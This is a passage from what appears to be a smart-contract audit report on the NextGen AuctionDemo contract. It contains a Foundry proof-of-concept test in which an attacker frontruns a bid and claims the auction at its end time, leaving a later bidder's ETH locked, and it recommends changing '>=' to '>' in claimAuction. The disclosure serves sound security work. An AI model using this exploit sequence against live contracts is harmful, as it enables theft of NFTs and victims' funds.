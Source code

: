 ```solidity
57:         bytes memory selector = abi.encodeWithSignature("participateToAuction(uint256)", 10000000000);
58:
59:         //Give approval to this contract to transfer the auctioned token to the winner when winner calls claimAuction()
60:         vm.prank(teamsTrustedAddress);
61:         gencore.setApprovalForAll(address(auctionContract), true);
62:         
63:         //Warp to 10000s i.e. right at auctionEndTime of the Azuki auction
64:         vm.warp(10000);
65:
66:         //Attacker's frontrun call to participateToAuction()
67:         vm.deal(attacker, 1000000000000000000); //Attacker places 1 ETH bid
68:         vm.prank(attacker);
69:         (bool success1,) = address(auctionContract).call{value: 1000000000000000000}(selector);
70:
71:         //Attacker's frontrun call to claimAuction()
72:         bytes memory selector2 = abi.encodeWithSignature("claimAuction(uint256)", 10000000000);
73:         vm.prank(attacker); //Attacker claimsAuction
74:         (bool success2,) = address(auctionContract).call(selector2);
75:
76:         //Alice's participateToAuction() call (which is frontrun by above two calls)
77:         vm.deal(alice, 2000000000000000000); //Alice places 2 ETH bid
78:         vm.prank(alice);
79:         (bool success3,) = address(auctionContract).call{value: 2000000000000000000}(selector);
80:
81:         assertEq(success1, true);
82:         assertEq(success2, true);
83:         assertEq(success3, true);
84:
85:         uint256 attackerNFTBalance = gencore.balanceOf(attacker);
86:         uint256 aliceETHBalance = address(alice).balance; //Means alice was not refunded her ETH since her call came later after the attacker frontrunned her with participateToAuction() and claimAuction() calls, thereby locking her ETH in AuctionDemo.sol
87:         uint256 auctionContractETHBalance = address(auctionContract).balance;
88:         
89:         assertEq(attackerNFTBalance, 1);
90:         assertEq(aliceETHBalance, 0);
91:         assertEq(auctionContractETHBalance, 2000000000000000000); //Represents Alice's locked ETH
92:     }
93:
94:     receive() external payable {}
95: }
```

## Tools Used
Manual Review

## Recommended Mitigation Steps
The solution is quite straightforward. Change ">=" to ">" in [claimAuction()](https://github.com/code-423n4/2023-10-nextgen/blob/8b518196629faa37eae39736837b24926fd3c07c/smart-contracts/AuctionDemo.sol#L104) function. This prevents the attacker A from performing such an attack on another address B.
